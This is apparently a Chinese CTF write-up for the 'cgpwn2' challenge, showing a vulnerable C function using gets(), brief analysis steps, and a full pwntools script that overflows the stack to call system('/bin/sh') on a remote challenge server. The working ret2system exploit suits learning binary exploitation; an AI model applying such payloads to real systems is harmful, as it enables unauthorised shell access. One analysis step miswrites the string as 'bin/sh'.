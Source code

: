 # wp

题目 cgpwn2

```c
char *hello()
{
  ...
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets(&s);
}
```

![](pwn_CGCTF_cgpwn2.md1.png)

# 0x02分析利用

通过栈溢出漏洞，调用system函数，同时在name中写入"/bin/sh"，把参数地址设置为name的首地址，就可以getshell了！

1. 输入name值为 "bin/sh"
2. s长度: 双击查看长度 为 0x26+4 => 42
3. system地址: 在左侧按Ctrl+E看，或者双击system按空格看地址。
4. 查看name地址, 双击name查看



# 0x03攻击

```python
from pwn import *
context.log_level = 'debug'

io = remote('124.126.19.106', 39551)
elf = ELF('./cgpwn2')

sys_addr = elf.symbols["system"]

io.recvuntil("your name")
io.sendline("/bin/sh")

bin_addr = 0x0804A080
payload = flat('a'*(0x26+4), sys_addr,1, bin_addr)
io.recvline()
io.sendline(payload)
io.interactive()
io.close()

```

